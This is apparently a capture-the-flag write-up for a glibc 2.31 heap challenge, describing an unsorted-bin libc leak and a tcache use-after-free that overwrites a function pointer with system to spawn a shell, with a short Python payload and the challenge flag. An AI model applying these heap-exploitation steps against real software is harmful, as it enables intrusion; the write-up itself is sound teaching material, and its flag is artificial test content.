

# Diamond Dogs
> glibc 2.31 heap exploitation: unsorted bin libc leak & Use-After-Free function pointer overwrite

## About the Challenge
We are given a 64-bit ELF binary `guard-dog` running on Ubuntu with `libc-2.31.so` and `ld-2.31.so`.

Binary protections:
```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
```

The program presents an interactive menu:
```text
1) adopt dog
2) command dog
3) release dog
4) file note
5) read note
6) shred note
7) go home
```

## How to Solve?

### 1. Vulnerability Analysis
- **Unsorted Bin Leak (UAF read on note)**: `shred note` frees a note buffer, but `read note` still permits reading from any allocated/previously used slot without zeroing out pointers.
- **Dog Struct UAF**: When a dog is adopted, a 32-byte (`0x20`) struct is allocated containing `name[0x18]` and a function pointer `void (*bark)(char*)`. Releasing a dog frees this struct into tcache, but leaves the kennel pointer intact.

### 2. Stage 1: Leaking Libc
In glibc 2.31, chunks larger than `0x408` bypass tcache and are placed directly into the unsorted bin when freed.

1. Allocate note 0 of size `0x500` (victim).
2. Allocate note 1 of size `0x100` (guard chunk to prevent consolidation into the top chunk).
3. Shred note 0.
4. Reading note 0 leaks the unsorted bin `fd` pointer pointing to `main_arena + 96` in libc (`offset = 0x1ecbe0`).
5. Compute:
   $$\text{libc\_base} = \text{fd} - \text{0x1ecbe0}$$
   $$\text{system} = \text{libc\_base} + \text{libc.symbols['system']}$$

### 3. Stage 2: Function Pointer Overwrite via UAF
The dog struct chunk size is `0x20`:
```c
struct Dog {
    char name[0x18];
    void (*command_fn)(char *);
};
```

1. Adopt dog at kennel 0 with name `"/bin/sh\x00"`.
2. Release dog 0. The `0x20` chunk is returned to the `0x20` tcache bin.
3. Allocate note 2 with size `0x20`. Tcache serves the freed dog struct.
4. Supply the payload into note 2:
   ```python
   payload = b"/bin/sh\x00" + b"A" * 0x10 + p64(system_addr)
   ```
   This sets `dog->name` to `"/bin/sh"` and overwrites `dog->command_fn` with `system`.

### 4. Stage 3: Spawning Shell
Trigger option 2 (command dog 0). The binary invokes `dog->command_fn(dog->name)` which evaluates to `system("/bin/sh")`:

```python
command(0)
io.sendline(b'cat flag.txt')
```

Running `solve.py` pops the shell and outputs the flag:



```text
flag : csaw{w3dd1ngs_4r3_b4s1c4lly_fun3r4ls_w1th_c4k3}
```
